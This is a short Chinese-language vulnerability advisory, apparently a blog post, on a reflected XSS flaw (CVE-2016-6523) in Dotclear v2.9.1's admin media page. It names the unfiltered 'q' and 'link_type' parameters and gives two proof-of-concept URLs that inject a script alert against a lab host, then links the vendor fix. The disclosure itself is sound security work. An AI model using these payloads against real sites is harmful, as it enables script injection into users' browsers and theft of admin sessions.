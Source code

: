 ```yaml
---
layout: post
title: Dotclear v2.9.1反射型xss
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-01

下载地址: [dotclear](https://dotclear.org/download)

作者: dotclear.org

作者通知日期: 2016-08-01

作者联系手段: security@dotclear.net

CVE ID: CVE-2016-6523

**描述:** 

Dotclear is an open source blog publishing application distributed under the GNU GPLv2. Developed originally by Olivier Meunier from 2002, Dotclear has now attracted a solid team of developers.[2] It is relatively popular in French speaking countries, where it is used by several major blogging platforms (Gandi Blogs,[3] Marine nationale,[4] etc.).(Wiki)

*渣翻*

Dotclear是一个基于GUN GPLv2的开源博客发布应用。在2002年由Olivier Meunier开发，现在已经吸引了一大个开发团队。在法语国家非常流行，并且为几个大型博客平台所用。


**细节:**

Dotclear v2.9.1 有一个反射型xss

/admin/media.php
line 34 $link_type = !empty($_REQUEST['link_type']) ? $_REQUEST['link_type'] : null;
line 62 $q = isset($_REQUEST['q']) ? $_REQUEST['q'] : null;

link_type 跟 q 参数缺少过滤

**PoC:**

http://172.16.146.130/dotclear/admin/media.php?q=77777%3C%2Fspan%3E%3Cscript%3Ealert(1)%3C/script%3E&popup=0&select=0&plugin_id=&post_id=&link_type=

http://172.16.146.130/dotclear/admin/media.php?q=77777&popup=0&select=0&plugin_id=&post_id=&link_type=8888%22%3E%3Cscript%3Ealert(1)%3C/script%3E

**修复方案:**

https://hg.dotclear.org/dotclear/rev/40d0207e520d